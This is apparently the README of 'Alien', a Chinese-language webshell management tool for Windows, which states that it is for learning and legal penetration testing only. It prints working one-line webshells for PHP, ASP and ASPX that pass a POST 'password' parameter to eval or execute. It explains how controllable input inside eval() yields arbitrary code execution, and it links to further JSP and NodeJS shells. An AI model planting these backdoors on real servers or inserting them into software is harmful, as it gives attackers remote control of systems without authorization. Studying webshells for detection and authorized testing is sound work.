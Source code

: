 # Alien

網站管理工具

## Author
- [@ISSAC](https://www.github.com/malbuffer4pt)

# 免責聲明
工具只限用於學習用途，網站管理和合法滲透測試，不可用於非法用途。\
如非法使用則後果自負。

## 工具平台
Windows

## 語言
C# .NET Framework V4.8

## 功能
- File Manager (可顯示圖片)
- Virtual Terminal
- Database
- Registry

## 一句話木馬
一句話木馬是在滲透測試中用來控制伺服器的工具\
強大之處在於木馬本身體積小，不易發現\
以下是最簡單的一句話木馬

- PHP
```<?php @eval($_POST['password']);?>```
- ASP
```<%execute(request("password"))%>```
- ASPX
```<%@ Page Language="Jscript"%><%eval(Request.Item["password"])%>```
當然, Alien還可以使用asmx, ashx等等的Webshell。
- NodeJS & JSP
```https://github.com/malbuffer4pt/Alien/blob/main/shell.txt```

## 關於JSP webshell
目前只有比較原始的菜刀版本, 之後可能會加上蟻劍和冰蝎\
shell有進行更改, 新增了可以顯示圖片的功能

## 關於NodeJS webshell
基於NodeJS特性, 原理跟一般php asp aspx等動態語言的shell不同, \
NodeJS目的重在管理而非滲透

## 伺服器
Windows Linux Unix MacOS

## Database管理
- MySQL : PHP
- Access : https://github.com/malbuffer4pt/DBer
- SQL Server : ASP ASPX ASMX ASHX

## 原理
以PHP為例子, eval()可以把string以PHP Code去執行，\
如果eval()中帶有可控變數，那麼就可以執行任意程式碼。\
如eval($_POST['a']);\
HTTP POST a=phpinfo(); 就可以執行phpinfo();

## 注意!
- 工具Payloads資料夾內有符合惡意程式的Payload, 可能會被防毒刪除
- 目前只有刪減版，但部份程式碼沒有刪除，Disassemble應該會有奇怪但無法使用的東西

## 圖片
![5](https://github.com/malbuffer4pt/Alien/blob/main/5.png)
![1](https://github.com/malbuffer4pt/Alien/blob/main/1.png)
![6](https://github.com/malbuffer4pt/Alien/blob/main/6.png)
![2](https://github.com/malbuffer4pt/Alien/blob/main/2.png)
![3](https://github.com/malbuffer4pt/Alien/blob/main/3.png)
![4](https://github.com/malbuffer4pt/Alien/blob/main/4.png)

## 致謝
研究webshell的各位前輩
